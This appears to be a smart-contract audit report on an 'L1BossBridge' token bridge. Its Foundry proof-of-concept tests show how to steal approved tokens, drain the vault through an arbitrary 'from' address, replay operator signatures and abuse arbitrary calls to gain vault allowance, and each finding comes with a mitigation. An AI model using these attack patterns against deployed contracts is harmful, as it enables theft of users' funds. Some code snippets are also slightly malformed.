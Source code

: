## High

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those asset stolen.

**Description :** The `depositTokensToL2` allows anyone to call that function using `from` parameter. 

**Impact :** The attacker can move the token of anyone who has approved token allowance to move on their behalf. He can assign himself the token after victim money is moved to vault.

**Proof of Concept :** Add the following proof of code in `L1TokenBridge.t.sol`.

<details>

```javascript
 function testCanMoveApprovedTokenOfOtherToken() external {
        // Poor alice approving
        vm.prank(user) ;
        token.approve(address(tokenBridge) , type(uint256).max) ;

        // BOB
        uint256 depositAmount =  token.balanceOf(user) ;
        address attacker = makeAddr("Attacker") ;

        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge)) ;
        emit Deposit(user , attacker , depositAmount) ;
        tokenBridge.depositTokensToL2(user , attacker , depositAmount) ;

        assertEq(token.balanceOf(user) , 0) ;
        assertEq(token.balanceOf(address(vault)) , depositAmount) ;
        vm.stopPrank() ;

    }
```
</details>

**Recommended Mitigation :** Consider modyfing the `depositTokensToL2` function in such a way that attacker can't specify from address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2( address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-        token.safeTransferFrom(from, address(vault), amount);
+        token.safeTransferFrom(msg.sender, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
        emit Deposit(from, l2Recipient, amount);
    }

```

### [H-2] Attacker can also drain all of the money of the vault.

**Description :** The `depositTokensToL2` function allows to specify the `from` parameters to deposit the money to L2. However, the vault allow all of the token to spend by bridge.

**Impact :** The attacker can easily specify vault address in from parameter of vault address and drain out all of the funds to thier address on L2.

**Proof of Concept :** Paste the following proof of code in `L1TokenBridge.t.sol`.

```javascript
function testCanTransferFromVaultToVault() external {
address attacker = makeAddr("Attacker") ;
uint256 vaultBalance = 500 ether ;

deal(address(token) , address(vault) , vaultBalance) ;

vm.expectEmit(address(tokenBridge)) ;
emit Deposit(address(vault)  , attacker , vaultBalance);

tokenBridge.depositTokensToL2(address(vault) , attacker , vaultBalance) ;
}
```

**Recommended Mitigation :** As suggested in `H1`, Consider modyfing the `depositTokensToL2` function in such a way that attacker can't specify from address.

### [H-3] The user can replay the withdrawls at `L1BossBridge::sendToL1`.

**Description :** Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.


**Impact :** However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any  bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.


**Proof of Concept :** Paste the following proof of code at `L1TokenBridge.t.sol`.

<details>

```java
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    address attacker = makeAddr("attacker");
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

</details>

**Recommended Mitigation :**Consider redesigning the withdrawal mechanism so that it includes replay protection.

<details>

```java
function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public {
    (address target, uint256 value, bytes memory data, uint256 nonce) = abi.decode(message, (address, uint256, bytes, uint256));

    address signer = ECDSA.recover(
        MessageHashUtils.toEthSignedMessageHash(
            keccak256(abi.encodePacked(target, value, data, nonce))
        ),
        v, r, s
    );

    if (!signers[signer]) {
        revert L1BossBridge__Unauthorized();
    }

    if (`nonce` != nonces[signer]) {
        revert InvalidNonce();
    }

    nonces[signer]++;

    (bool success,) = target.call{value: value}(data);
    if (!success) {
        revert L1BossBridge__CallFailed();
    }
}

```
</details>


### [H-4] `CREATE` opcode does not work on zksync era

**Description :** The `create` opcode written in `TokenFactory::deployToken` doesn't work if used in zksync era. It currently does not support it.

**Impact :** The `TokenFactory::deployToken` is useless and the contract's one of the major protocol is broken.

**Recommended Mitigation :** Find better alternative instead of `create` opcode.


### [H-5] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.

## Medium

### [M-1] Withdrawals are prone to unbounded gas consumption due to return bombs

During withdrawals, the L1 part of the bridge executes a low-level call to an arbitrary target passing all available gas. While this would work fine for regular targets, it may not for adversarial ones.

In particular, a malicious target may drop a [return bomb](https://github.com/nomad-xyz/ExcessivelySafeCall) to the caller. This would be done by returning an large amount of returndata in the call, which Solidity would copy to memory, thus increasing gas costs due to the expensive memory operations. Callers unaware of this risk may not set the transaction's gas limit sensibly, and therefore be tricked to spent more ETH than necessary to execute the call.

If the external call's returndata is not to be used, then consider modifying the call to avoid copying any of the data. This can be done in a custom implementation, or reusing external libraries such as [this one](https://github.com/nomad-xyz/ExcessivelySafeCall).


## Low

### [L-1] `TokenFactory::deployToken` can create multiple token with same `symbol`.

## Informational

### [I-1] The DEPOSIT_LIMIT should be constant on `L1BossBridge`.

```diff
-    uint256 public DEPOSIT_LIMIT = 100_000 ether;
+    uint256 public constant DEPOSIT_LIMIT = 100_000 ether;
```

### [I-2] The function `depositTokensToL2` should follow CEI.

```diff
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }

+       emit Deposit(from, l2Recipient, amount);

        token.safeTransferFrom(from, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
-        emit Deposit(from, l2Recipient, amount);
    }
```

### [I-3] The `L1Vault::token` should be immutable.

```diff
- IERC20 public token;
+ IERC20 public immutable token;
```

### [I-4] The `L1Vault::approveTo` should check the return value of approve.

```diff
 function approveTo(address target, uint256 amount) external onlyOwner {
        token.approve(target, amount);
+        emit(target , amount) ;
    }
```

### [I-5] Insufficient test coverage

```
Running tests...
| File                 | % Lines        | % Statements   | % Branches    | % Funcs       |
| -------------------- | -------------- | -------------- | ------------- | ------------- |
| src/L1BossBridge.sol | 86.67% (13/15) | 90.00% (18/20) | 83.33% (5/6)  | 83.33% (5/6)  |
| src/L1Vault.sol      | 0.00% (0/1)    | 0.00% (0/1)    | 100.00% (0/0) | 0.00% (0/1)   |
| src/TokenFactory.sol | 100.00% (4/4)  | 100.00% (4/4)  | 100.00% (0/0) | 100.00% (2/2) |
| Total                | 85.00% (17/20) | 88.00% (22/25) | 83.33% (5/6)  | 77.78% (7/9)  |
```

**Recommended Mitigation:** Aim to get test coverage up to over 90% for all files.